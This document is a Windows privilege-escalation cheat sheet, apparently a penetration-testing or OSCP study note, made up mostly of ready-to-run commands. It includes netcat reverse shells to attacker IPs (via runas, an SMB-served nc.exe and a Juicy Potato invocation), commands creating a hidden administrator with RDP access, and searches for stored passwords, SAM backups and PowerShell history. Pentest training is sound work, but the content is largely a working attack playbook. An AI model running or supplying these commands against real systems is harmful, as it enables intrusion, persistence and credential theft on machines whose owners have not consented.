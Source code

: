 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
  - [ ] `LAPS Reader`: `Get-ADComputer -Property *` -> `ms-Mcs-AdmPwd`; There is also a script called `laps.py`.
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] `SeImpersonatePrivilege`
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
  - [ ] `SeDebugPrivilege`
- [ ] Check installed softwares: `c:\Program Files (x86)`
- [ ] `winpeas.exe cmd`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

# Juicy Potato
We can use one of the BITS CSLIDs from here:
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
```
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```

# Sensitive Files
```
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent\*" -Recurse -Force
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force
Get-ChildItem "C:\Users\*\AppData\Local\Temp\*" -Recurse -Force
Get-ChildItem "C:\`$Recycle.Bin\*" -Recurse -Force
```

--- 

# Useful Links
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- https://github.com/0xsyr0/OSCP
- https://github.com/frizb/Windows-Privilege-Escalation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://blog.certcube.com/powerup-cheatsheet/



